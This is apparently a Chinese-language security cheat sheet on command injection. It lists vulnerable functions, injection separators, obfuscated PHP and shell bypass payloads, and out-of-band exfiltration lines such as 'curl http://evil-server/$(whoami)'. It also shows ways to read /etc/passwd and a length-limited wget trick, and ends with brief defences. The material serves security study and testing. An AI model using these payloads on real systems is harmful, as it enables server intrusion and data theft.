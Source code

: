 命令执行（注入）
========================================

简介
----------------------------------------
命令注入通常因为指Web应用在服务器上拼接系统命令而造成的漏洞,直接调用操作系统命令(相当于在cmd下敲命令)。

该类漏洞通常出现在调用外部程序完成一些功能的情景下。比如一些Web管理界面的配置主机名/IP/掩码/网关、查看系统信息以及关闭重启等功能，或者一些站点提供如ping、nslookup、提供发送邮件、转换图片等功能都可能出现该类漏洞。

分类
----------------------------------------
- OS命令执行

::

	常见的shell：Windows上的cmd；Unix/Linux上常见的Shell脚本解释器有bash、sh、csh、ksh；

- Web命令执行

::

	PHP:system,exec,passthru,shell_exec,popen,proc_open
	Python:system,popen,subprocess.call,spawn
	Java:java.lang.Runtime.getRuntime().exec(command)

- 数据库命令执行
- 第三方软件命令执行

常见注入方式
----------------------------------------
- 分号分割
- ``||`` ``&&`` ``&`` 分割
- ``|`` 管道符
- ``\r\n`` ``%d0%a0`` 换行 
- 反引号解析
- ``$()`` 替换

无回显技巧
----------------------------------------
- bash反弹shell
- DNS带外数据
- http带外
    - ``curl http://evil-server/$(whoami)``
    - ``wget http://evil-server/$(whoami)``
- 无带外时利用 ``sleep`` 或其他逻辑构造布尔条件

命令分隔符
----------------------------------------
- ``%0a`` / ``%0d`` / ``\n`` / ``\r``
- ``;``
- ``&`` / ``&&``

常见绕过方式
----------------------------------------

字符串拼接绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``(p.h.p.i.n.f.o)();``
- ``(sy.(st).em)(whoami);``
- ``(sy.(st).em)(who.ami);``
- ``(s.y.s.t.e.m)("whoami");``
- ``.......``

字符串转义绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``"\x70\x68\x70\x69\x6e\x66\x6f"();#phpinfo();``
- ``"\163\171\163\164\145\155"('whoami');#system('whoami');``
- ``"\u{73}\u{79}\u{73}\u{74}\u{65}\u{6d}"('id');#system('whoami');``
- ``"\163\171\163\164\145\155"("\167\150\157\141\155\151");#system('whoami');``
- ``.......``

多次传参绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 查询字符串：``?1=system&2=whoami`` body：``cmd=$_GET[1]($_GET[2]);``

空格绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``<`` 符号 ``cat<123``
- ``\t`` / ``%09``
- ``${IFS}`` 其中{}用来截断，比如cat$IFS2会被认为IFS2是变量名。另外，在后面加个$可以起到截断的作用，一般用$9，因为$9是当前系统shell进程的第九个参数的持有者，它始终为空字符串

内置函数访问绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- get_defined_functions()：返回所有已定义函数的数组
- cmd=get_defined_functions()[internal][358](whoami);


异或绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``$_=('%01'^'%60').('%08'^'%7b').('%08'^'%7b').('%05'^'%60').('%09'^'%7b').('%08'^'%7c');$__='_'.('%07'^'%40').('%05'^'%40').('%09'^'%5d');$___=$$__;$_($___[_]);&_=phpinfo();``
- ``${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo``
- ``//${_GET}{%ff}();&%ff=phpinfo``

URL编码绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``(~%8F%97%8F%96%91%99%90)();`` -> ``#phpinfo();``
- ``(~%8C%86%8C%8B%9A%92)(~%88%97%90%9E%92%96);`` -> ``#system('whoami');``

黑名单绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``a=l;b=s;$a$b``
- base64 ``echo "bHM=" | base64 -d``
- ``/?in/?s`` => ``/bin/ls``
- 连接符 ``cat /etc/pass'w'd``
- 未定义的初始化变量 ``cat$x /etc/passwd``

长度限制绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

    >wget\
    >foo.\
    >com
    ls -t>a
    sh a

上面的方法为通过命令行重定向写入命令，接着通过ls按时间排序把命令写入文件，最后执行
直接在Linux终端下执行的话,创建文件需要在重定向符号之前添加命令
这里可以使用一些诸如w,[之类的短命令，(使用ls /usr/bin/?查看)
如果不添加命令，需要Ctrl+D才能结束，这样就等于标准输入流的重定向
而在php中 , 使用 shell_exec 等执行系统命令的函数的时候 , 是不存在标准输入流的，所以可以直接创建文件

disable_functions绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- php.ini的disable_functions中设置了禁用函数phpinfo,eval,passthru,exec,system,chroot等
- 系统组件绕过
- ImageMagick漏洞绕过
- 环境变量LD_PRELOAD绕过
- pcntl_exec绕过

防御
----------------------------------------
- 不使用时禁用相应函数
- 尽量不要执行外部的应用程序或命令
- 做输入的格式检查
- 转义命令中的所有shell元字符
    - shell元字符包括 ``#&;`,|*?~<>^()[]{}$\``
